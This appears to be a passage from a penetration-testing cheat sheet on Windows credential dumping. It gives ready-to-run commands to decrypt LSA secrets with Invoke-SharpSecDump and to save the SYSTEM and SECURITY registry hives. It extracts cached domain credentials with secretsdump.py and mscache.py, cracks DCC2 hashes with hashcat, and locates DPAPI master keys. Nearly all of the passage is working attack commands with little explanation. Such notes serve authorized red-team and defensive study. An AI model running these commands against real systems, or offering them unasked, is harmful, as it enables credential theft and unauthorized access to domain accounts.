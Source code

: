 Decrypt LSA secrets on target:

```
PS > Invoke-SharpSecDump -C "-target=127.0.0.1"
```



### MSCash2/MSCache2 (DCC2)

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

Domain cached credentials are stored within **LSA secrets** in `HKLM:\SECURITY` registry hive:

```
Cmd > reg save hklm\system system.hive
Cmd > reg save hklm\security security.hive
```


#### secretsdump.py

Export registry hives and extract cached creds locally with `secretsdump.py`:

```
$ secretsdump.py -system system.hive -security security.hive LOCAL
```


#### mscache.py

* [https://github.com/QAX-A-Team/mscache/blob/master/mscache.py](https://github.com/QAX-A-Team/mscache/blob/master/mscache.py)

Export registry hives and extract cached creds locally with `mscache.py`:

```
$ python mscache.py --system system.hive --security security.hive
```


#### Crack

```
$ hashcat -m 2100 -O -a 0 -w 4 --session=dcc2 -o dcc2.out dcc2.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```




## DPAPI

Master keys locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\ (%appdata%\Microsoft\Protect\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Protect\ (%localappdata%\Microsoft\Protect\)
```
